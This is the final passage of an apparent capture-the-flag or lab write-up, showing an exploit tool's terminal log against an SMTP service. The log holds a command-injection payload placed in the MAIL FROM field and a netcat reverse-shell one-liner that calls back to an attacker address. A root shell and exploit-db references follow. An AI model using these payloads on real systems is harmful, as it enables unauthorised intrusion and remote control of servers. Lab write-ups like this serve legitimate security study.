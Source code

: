 ```terminal
[*] 127.0.0.1:8888 - Sending: MAIL FROM:<;for d in x c S 4 a e F A 9 G J K w y;do read d;done;sh;exit 0;>                                    
[*] 127.0.0.1:8888 - Expecting: /250.*Ok/                                                      
[*] 127.0.0.1:8888 - Sending: RCPT TO:<root>                                                                                                                                                  
[*] 127.0.0.1:8888 - Expecting: /250.*Recipient ok/                                            
[*] 127.0.0.1:8888 - Sending: DATA                                                             
[*] 127.0.0.1:8888 - Expecting: /354 Enter mail.*itself/                                       
[*] 127.0.0.1:8888 - Sending: 
#
#
#
#
#
#
#
#
#
#
#
#
#
#
mkfifo /tmp/tbzlnn; nc 10.66.67.114 4444 0</tmp/tbzlnn | /bin/sh >/tmp/tbzlnn 2>&1; rm /tmp/tbzlnn
[*] 127.0.0.1:8888 - Sending: .
[*] 127.0.0.1:8888 - Expecting: /250.*Message accepted for delivery/
[*] 127.0.0.1:8888 - Sending: QUIT
[*] 127.0.0.1:8888 - Expecting: /221.*Bye/
[*] Command shell session 3 opened (10.66.67.114:4444 -> 10.150.150.27:37934) at 2025-03-18 14:50:05 +0000
id
uid=0(root) gid=0(root) groups=0(root)
```

And just like that we have rooted this machine.

## **References**

<https://www.exploit-db.com/exploits/48038>

<https://www.exploit-db.com/exploits/49711>

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
